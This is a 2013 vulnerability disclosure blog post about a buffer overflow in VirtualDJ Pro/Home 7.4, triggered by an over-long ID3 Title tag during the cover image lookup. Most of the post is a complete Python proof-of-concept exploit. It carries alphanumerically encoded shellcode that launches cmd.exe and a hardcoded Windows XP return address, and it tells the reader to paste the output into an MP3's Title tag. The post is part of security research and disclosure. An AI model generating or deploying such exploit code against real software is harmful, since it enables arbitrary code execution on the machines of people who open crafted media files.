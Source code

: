 ```yaml
---
layout: post
date: 2013-04-20 00:00:00 UTC
title: VirtualDJ Pro/Home 7.4: Buffer Overflow
---
```


I have found a buffer overflow vulnerability in [VirtualDJ Pro 7.4 and VirtualDJ Home 7.4](http://www.virtualdj.com/) and possibly previous versions of this software. After right-clicking a file and entering the "_File Infos_" > "_Cover..._" menu, VirtualDJ tries to find a cover for the given file on Google Images and stores the request URL in a buffer which looks like: `"http://images.google.com/images?q=X"` where `X` corresponds to the ID3 tag _Title_. Special characters of this tag are ignored, and any sequence of symbols (e.g. `' '`, `'-'`, `'_'`) is replaced with `'+'`. The problem is [once again](2013-03-30-virtualdj-73-buffer-overflow.md) that VirtualDJ does not check if the information stored in the ID3 tags is too big to fit in the buffer.

To exploit this vulnerability, I searched for a `call esp` instruction stored in an address that could be represented with alphanumeric characters, I found such instruction in 0x444D4C64, that is, `"dLMD"`. After entering this call, all the bytes after the _Fake Title_ + _Spaces_ + _Padding_ + `"dLMD"` will be executed. Since we can only use alphanumeric characters, we have to encode the shellcode and decode it in execution time using only bytes in range `[0-9A-Za-z]`. For this purpose I used a function from [ALPHA3](http://code.google.com/p/alpha3/). After that, the original shellcode will be decoded and executed.

```python
#Exploit: VirtualDJ Pro/Home <=7.4 Buffer Overflow Vulnerability 
#By: Alexandro Sanchez Bach | functionmixer.blogspot.com 
#More info: http://www.youtube.com/watch?v=Yini294AR2Q 

def encodeData(decoder, data, validValues):
    assert data.find("\0") == -1, "Shellcode must be NULL free"
    data += "\0" #End of shellcode 
    encData = decoder[-2:]
    decoder = decoder[:-2]
    for p in range(len(data)):
        dByte = ord(data[p])
        pxByte = ord(encData[p+1])
        bx, by = encoder(dByte ^ pxByte, validValues)
        encData += chr(bx) + chr(by)
    return decoder + encData
 
def encoder(value, validValues): 
      for bx in validValues:
        imul = (bx * 0x30) &amp; 0xFF
        for by in validValues:
            if imul ^ by == value: return [bx, by]
 

#Shellcode (e.g. run cmd.exe) 
shellcode  = "\xB8\xFF\xEF\xFF\xFF\xF7\xD0\x2B\xE0\x55\x8B\xEC"
shellcode += "\x33\xFF\x57\x83\xEC\x04\xC6\x45\xF8\x63\xC6\x45"
shellcode += "\xF9\x6D\xC6\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45"
shellcode += "\xFC\x65\xC6\x45\xFD\x78\xC6\x45\xFE\x65\x8D\x45"
shellcode += "\xF8\x50\xBB\xC7\x93\xBF\x77\xFF\xD3"
retAddress = "\xED\x1E\x94\x7C" # jmp ESP ntdll.dll WinXP SP2 
shellcode += retAddress

#Arguments 
fakeTitle  = "Greatest Hits of the Internet - Nyan Cat"
while fakeTitle[0]  == " ": fakeTitle = fakeTitle[1:]
while fakeTitle[-1] == " ": fakeTitle = fakeTitle[:-1]
for i in fakeTitle:
    if i not in "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz -":
        raise "Invalid characters in the fake title"
fakeTitle2 = fakeTitle.replace("-"," ")
while " " in fakeTitle2: fakeTitle2 = fakeTitle2.replace(" "," ")

#Exploit 
exploit =  fakeTitle + " "*1024 + "1"*(1026 - len(fakeTitle2)-1)
exploit += "dLMD" #RETN address 
exploit += "XXAI" #ESP := Baseaddr of encoded payload 
exploit += encodeData(
	"TYhffffk4diFkDql02Dqm0D1CuEE", #Baseaddr of encoded payload := ESP 
    shellcode,
    map(ord, list("0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"))
)

print exploit
#Paste the generated code in the tag 'Title' of the MP3 file.
```

You can see a demo of this proof of concept at: https://www.youtube.com/watch?v=Yini294AR2Q.

## Log

* __2013-04-07__: Bug discovered. VirtualDJ was emailed about this a few days later.
* __2013-04-20__: Bug ignored. Exploit published.
